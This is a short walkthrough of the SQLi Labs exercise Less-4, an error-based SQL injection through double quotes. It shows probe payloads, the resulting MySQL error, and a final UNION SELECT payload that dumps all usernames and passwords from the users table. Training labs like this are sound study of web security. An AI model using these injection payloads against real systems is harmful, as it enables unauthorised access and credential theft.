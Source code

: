 Hello Guys,

This is the write-up for Less-4 'Error Based - Double Quotes - string' from SQLi Labs.

Considering 'Double Quotes' from the topic's name, using double quotes after numeric parameter,
``` [URL]/Less-4/?id=1" -- -```,

an error is returned:

``` 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right 
syntax to use near '' at line 1
```

Alternately using ``` ?id=1") -- - ```,

``` 
Your Login name:Dumb
Your Password:Dumb 
```

So, the input must be going into the query like ```.... WHERE id = ("<input>") ....;```

So using, ``` [URL]/?id=-1") UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users -- -```
